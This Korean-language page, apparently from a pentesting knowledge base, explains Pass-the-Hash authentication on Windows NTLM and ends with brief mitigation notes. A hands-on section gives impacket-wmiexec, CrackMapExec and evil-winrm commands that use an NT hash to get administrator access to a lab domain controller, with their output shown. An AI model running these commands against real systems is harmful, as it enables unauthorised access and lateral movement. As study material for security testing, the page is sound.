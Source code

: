 # Pass-the-Hash

패스 더 해시 (Pass-the-Hash, PtH, PTH) 기법은 윈도우 NTLM 인증을 사용할 때 평문 비밀번호를 사용하지 않고, 그 비밀번호의 NT 해시를 사용해 인증하는 기법을 일컫는다. 패스 더 해시는 평범하게 NTLM 인증을 활용하는 기법 중 하나다. 만들어놓은 프로토콜을 의도한대로 평범하게 사용하는 것이다. [NTLM 인증의 개념은 따로 정리](../개념/윈도우-사용자-인증/ntlm.md)해놨으니 이 페이지에서는 다이어그램만 가져와서 사용하고, 자세한 설명은 생략한다.&#x20;

![](<../.gitbook/assets/ntlm-local-auth.drawio (2).png>)

NTLM 인증이 이뤄지는 동안 유저의 평문 비밀번호는 사용되지 않는다. Challenge/Response 에서는 오로지 유저의 NT 해시화된 비밀번호로 암호화된 Challenge 만 서버와 클라이언트가 주고 받을 뿐이다.

공격자의 입장에서도 마찬가지다. LSASS 덤프 (TODO: 페이지 생성 + 링크)를 진행하다 보면 유저의 NT 해시를 얻을 때가 많다. 경우에 따라서 크래킹이 가능한 경우도 있지만, 비밀번호가 복잡하고 길때는 불가능할때도 많다. 하지만 NTLM 인증 프로토콜은 평문 비밀번호가 필요 없는 프로토콜이다. 더 정확하게는 평문 비밀번호를 굳이 알아낼 필요가 없다. NT 해시만 있으면 된다.&#x20;

패스 더 해시는 원격 코드 실행 및 횡적이동에서 많이 사용된다.&#x20;

* SMB + PsExec&#x20;
* WMI&#x20;
* WinRM&#x20;
* RDP - 단, Restricted Admin (`HKLM\System\CurrentControlSet\Control\LSA, DisableRestrictedAdmin` 이 0이여야함)&#x20;

등의 횡적 이동을 할 때 모두 평문 비밀번호 대신 패스 더 해시를 이용할 수 있다.&#x20;

### 실습&#x20;

많은 윈도우 + 리눅스 기반의 액티브 디렉토리 툴들은 기본적으로 패스 더 해시를 지원한다.예를 들어 impacket, CrackMapExec, Rubeus, Mimikatz 등이 있지만, 거의 왠만한 툴들은 다 지원한다고 보면 된다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
impacket 툴들의 경우 `-hashes` 플래그를 사용하며, LM:NT 형식의 해시가 필요하다. CME의 경우 그냥 NT 해시만 줘도 된다.&#x20;



```
# Impacket 툴들의 "-hashes" 플래그 사용 
impacket-wmiexec domain.com/user@targetFQDN <command> -hashes '<LM:NT>'

impacket-wmiexec choi.local/Administrator@dc01.choi.local whoami -hashes 'aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe' 
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
choi\administrator

# CME 의 -H 플래그 사용 
cme smb <FQDN/IP> -u <user> -H <NThash> -d <domain> 

cme smb 192.168.40.150 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe -d choi.local                                  
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

cme smb 192.168.40.150 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe -d choi.local 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

# WinRM을 이용한 패스 더 해시 
evil-winrm -i <ip> -u <user> -H <NThash> 
```
{% endtab %}

{% tab title="윈도우" %}
TODO&#x20;
{% endtab %}
{% endtabs %}



### 특이 사항&#x20;

패스 더 해시 기법의 가장 큰 오해는 바로 이것이 공격(attack)이라는 것이다 패스 더 해시는 공격도 아니고, 특정 프로토콜을 악용(abuse)하는 것도 아니다. NTLM 인증 프로토콜의 취약점(vulnerability)는 더더욱 아니다. 따라서 내부망 모의해킹을 진행할 때도 이 PTH 를 취약점으로 적어놓는 실수를 하면 안된다.&#x20;



### 대응 방안&#x20;

앞서 서술했듯 패스 더 해시는 NTLM을 정상적으로 이용하는 한 방법이기 때문에 막을 방법이 없다. 그나마 AD에서 커버로스나 ADCS를 강제로 이용하게 하는 방법이 있지만, 이는 하위 호환성에 영향을 줄 가능성이 있어 실행하기 어렵다. 패스 더 해시를 막으려는 노력보단 애당초 공격자들이 NT 해시나 다른 계정 정보를 얻을 수 없게끔 보안을 강화하는 것이 추천된다.&#x20;

